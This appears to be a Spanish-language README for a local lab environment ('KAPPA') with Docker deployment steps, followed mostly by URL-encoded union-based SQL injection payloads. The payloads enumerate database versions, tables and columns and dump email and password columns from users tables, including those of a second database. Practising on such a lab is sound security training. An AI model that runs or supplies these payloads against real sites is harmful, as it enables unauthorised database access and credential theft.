 # KAPPA

- IIS (port 80): Fmanager
- XAMPP (port 8000): CBMS

## Despliegue

1. Ejecutar `docker-compose build` para construir el env.
2. Ejecutar `docker-compose up -d` para levantar el contenedor.

## Explotación SQLi

Obtener version y base de datos actual:
- `http://localhost:8188/post.php?id=0%27%20union%20select%201,2,version(),database(),5%20--%20-`

Obtener tablas de la base de datos actual:
- `http://localhost:8188/post.php?id=0%27%20union%20select%201,2,version(),table_name,5%20from%20information_schema.tables%20where%20table_schema=database()%20--%20-`

Obtener nombres de las columnas de la tabla 'users':
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2C2%2Cversion%28%29%2Ccolumn_name%2C5%20from%20information_schema.columns%20where%20table_name%3D%27users%27%20--%20-`

Obtener los valores de las columnas 'id', 'email' y 'password' de la tabla 'users':
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2Cid%2Cemail%2Cpassword%2C5%20from%20users%20--%20-`

Intentando obtener el valor de la columna 'pass' de la tabla 'users' (pero sin éxito):
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2Cid%2Cemail%pass%2C5%20from%20users%20--%20-`

Ver bases de datos:
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2C2%2C3%2Cschema_name%2C5%20from%20information_schema.schemata%20--%20-`

Obtener tablas de la base de datos 'fmanager':
- `http://localhost:8188/post.php?id=0%27%20union%20select%201,2,version(),table_name,5%20from%20information_schema.tables%20where%20table_schema=%27fmanager%27%20--%20-`

Obtener nombres de las columnas de la tabla 'users' de la base de datos 'fmanager':
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2C2%2Cversion%28%29%2Ccolumn_name%2C5%20from%20information_schema.columns%20where%20table_name%3D%27users%27%20and%20table_schema%3D%27fmanager%27%20--%20-`

Obtener valores de las columnas 'id', 'email' y 'pass' de la tabla 'users' de la base de datos 'fmanager':
- `http://localhost:8188/post.php?id=0%27%20union%20select%201%2C2%2Cid%2Cemail%2Cpass%20from%20fmanager.users%20--%20-`

